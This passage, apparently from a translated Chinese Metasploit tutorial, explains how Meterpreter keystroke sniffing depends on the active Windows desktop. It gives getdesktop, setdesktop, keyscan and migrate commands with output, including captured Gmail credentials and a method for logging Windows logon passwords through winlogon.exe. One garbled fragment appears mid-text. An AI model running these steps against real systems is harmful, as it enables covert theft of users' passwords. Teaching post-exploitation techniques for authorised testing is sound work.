 这里需要注意的是，每个桌面都有自己的键盘缓冲区。因此，如果您必须从 `Default`桌面嗅探击键，您必须确保当前的 meterpreter 活动浏览器设置为 `Session 0/WinSta0/Default`。如果您必须嗅探登录密码，则必须更改 active desktop `to Session 0/WinSta0/Winlogon`。让我们举一个例子来说明这一点。

让我们使用 `getdesktop`命令检查当前桌面：

```
meterpreter > getdesktop
Session 0\Service-0x0-3e7$\Default 
```

如你所见，我们不在 `WinSta0`站，这是唯一的交互式桌面站。因此，如果我们在这里运行击键捕获，那么它不会返回任何结果。让我们将桌面更改为 `WinSta0\Default:`

```
meterpreter > setdesktop
Changed to desktop WinSta0\Default
meterpreter > getdesktop
Session 0\WinSta0\Default 
```

前面的命令行显示，我们使用 `setdesktop`命令移动到交互式 Windows 桌面工作站。因此，现在我们准备运行击键嗅探器来捕获用户在目标机器上按下的键：

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
gmail.com <Return> daklord <Tab> 123123 
```

查看转储的击键，您可以清楚地识别目标用户访问了[gmail.com](http://gmail.com)并输入了其登录凭据。

如果要嗅探 windows 登录密码，该怎么办？显然，您可以使用 `setdesktop`命令将 active desktop 切换到 `WinSta0\Winlogon`，但这里我们也将讨论另一种方法。我们可以迁移到 Windows 登录期间运行的进程。让我们执行 `ps`命令来检查正在运行的进程。

您会发现 `winlogon.exe`以进程 id 的进程运行。假设 `winlogon.exe`的**进程 id（PID）**为 `1180`。现在，让我们迁移到此 PID 并再次检查我们的活动桌面：

```
meterpreter > migrate 1180
[*] Migrating to 1180...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 0\WinSta0\Winlogon 
```

您可以看到我们的 active desktop 已更改为 `WinSta0\Winlogon`。现在我们可以运行 `keyscan_start`命令，开始在 Windows 登录屏幕上嗅探击键。

类似地，我们可以通过迁移到默认桌面上运行的任何进程来返回默认桌面。用 Posiple T1

```
meterpreter > migrate 884
[*] Migrating to 884...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 0\WinSta0\Default 
```

您可能已经注意到迁移到不同进程和桌面环境以检测击键的重要性。通常，人们在不查看当前活动桌面的情况下直接运行 `keyscan`不会得到结果。这是因为他们所渗透的进程可能属于不同的会话或站点。因此，在使用按键嗅探时，请记住桌面的概念。
